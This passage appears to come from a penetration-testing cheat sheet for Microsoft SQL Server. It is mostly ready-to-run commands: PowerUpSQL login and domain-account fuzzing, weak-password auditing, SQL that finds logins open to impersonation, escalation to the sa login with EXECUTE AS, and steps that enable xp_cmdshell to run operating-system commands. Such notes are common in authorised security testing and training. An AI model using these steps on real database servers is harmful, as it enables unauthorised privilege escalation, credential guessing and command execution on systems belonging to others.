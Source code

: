 ````
Get-SQLFuzzServerLogin -Instance <COMPUTERNAME>\<INSTANCENAME>
```
 
#### Blind SQL Domain Account Enum.
```
-- Get the domain where SQL Server is.--
SELECT DEFAULT_DOMAIN() as mydomain
-- Full RID of Domain Admins group.--
SELECT SUSER_SID('<Identified_Domain>\Domain Admins')
-- grab the first 48 bytes of the full RID to get domain’s SID. Create a new RID (will be associated with a domain object) by appending a hex number value to the previous SID. --
SELECT SUSER_NAME(RID) –> Get the domain object name associated to the RID.

Get-SQLFuzzDomainAccount -Instance <COMPUTERNAME>\<INSTANCENAME>
```

#### Check for weak passwords or default credentials
- Enumerate all SQL Logins as least privilege user and test username as password.
```
Get-SQLInstanceDomain | Invoke-SQLAuditWeakLoginPw -Verbose
```
 
### Impersonation attack
#### Check if impersonation is possible PowerUpSQL
- Might be able to use the ```-exploit``` flag to exploit it
```
Invoke-SQLAuditPrivImpersonateLogin -Instance <SQL INSTANCE> -Verbose -Debug
```

#### Check if impersonation is possible
```
-- Find users that can be impersonated
SELECT distinct b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

#### Impersonate a user 
- Might be possible to impersonate user a and then user b and then sa!
```
-- Verify you are still running as the normal user login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
-- Impersonate the sa login
EXECUTE AS LOGIN = 'sa'
-- Verify you are now running as the sa login
SELECT SYSTEM_USER
SELECT IS_SRVROLEMEMBER('sysadmin')
```

#### Enable and run xp_cmdshell
```
-- Enable show options
EXEC sp_configure 'show advanced options', '1'
RECONFIGURE
GO
-- Enable xp_cmdshell
EXEC sp_configure 'xp_cmdshell', '1' 
RECONFIGURE
GO
-- Quickly check what the service account is via xp_cmdshell
EXEC master..xp_cmdshell 'whoami'
```
````